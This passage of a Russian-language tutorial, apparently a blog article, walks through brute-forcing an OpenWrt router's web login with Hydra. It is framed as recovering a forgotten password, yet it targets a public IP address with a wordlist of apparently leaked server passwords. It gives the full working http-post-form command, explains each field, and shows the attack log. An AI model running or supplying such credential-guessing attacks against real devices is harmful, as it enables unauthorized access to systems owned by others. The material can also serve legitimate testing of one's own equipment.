 Например - мы забыли пароль к роутеру, который использует веб-авторизацию. Т.е. не просто "выплывающее окошко браузера", а полноценные поля для ввода пары логин:пароль. Давай попытаемся подобрать пароль и к нему. В рассматриваемом примере это OpenWrt:

![screenshot](https://habrastorage.org/files/ad2/e6d/ba9/ad2e6dba902c4c07adddcdda88ae4ba8)

Открываем панель отладки браузера (`F12` в Chromium-based браузерах), вкладка `Network` и отмечаем галочкой `Preserve log`. После этого вводим пароль, например, `test_passw0rd` (_логин у нас уже введен_), жмем кнопку "Login", и смотрим в консоли что и куда уходит:

![screenshot](https://habrastorage.org/files/3c8/62d/0d0/3c862d0d07034913a3e285feb5f3fe5c)

Отлично, теперь давай подытожим те данные, которыми мы располагаем:

- IP сервера `178.72.90.181`
- Сервис `http` на стандартном `80` порту
- Для авторизации используется html форма, которая отправляет по адресу `http://178.72.90.181/cgi-bin/luci` методом `POST` запрос вида `username=root&password=test_passw0rd`
- В случае не удачной аутентификации пользователь наблюдает сообщение `Invalid username and/or password! Please try again.`

Приступим к запуску гидры:

```bash
$ hydra -l root -P ~/pass_lists/dedik_passes.txt -o ./hydra_result.log -f -V -s 80 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
```

И тут надо кое-что пояснить. Мы используем `http-post-form` потому как авторизация происходит по `http` методом `post`. После указания этого модуля идет строка `/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username`, у которой через двоеточие (`:`) указывается:

1. Путь до скрипта, который обрабатывает процесс аутентификации. В нашем случае это `/cgi-bin/luci`
1. Строка, которая передается методом POST, в которой логин и пароль заменены на `^USER^` и `^PASS^` соответственно. У нас это `username=^USER^&password=^PASS^`
1. Строка, которая **присутствует** на странице при **неудачной** аутентификации. При её **отсутствии** гидра поймет что мы успешно вошли. В нашем случае это `Invalid username`

Подбор в моем случае идет довольно медленно (_~16 паролей в минуту_), и связано это в первую очередь с качеством канала и способностью железки обрабатывать запросы. Как мы видим - ей довольно тяжело это делать:

```bash
Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-12 14:15:12
[DATA] max 16 tasks per 1 server, overall 64 tasks, 488 login tries (l:1/p:488), ~0 tries per task
[DATA] attacking service http-post-form on port 80
[ATTEMPT] target 178.72.90.181 - login "root" - pass "!" - 1 of 488 [child 0]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "!!!" - 2 of 488 [child 1]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "!!!!" - 3 of 488 [child 2]
# ...
[ATTEMPT] target 178.72.90.181 - login "root" - pass "%username%1" - 18 of 488 [child 1]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "%username%12" - 19 of 488 [child 2]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "%username%123" - 20 of 488 [child 15]
[STATUS] 20.00 tries/min, 20 tries in 00:01h, 468 to do in 00:24h, 16 active

```
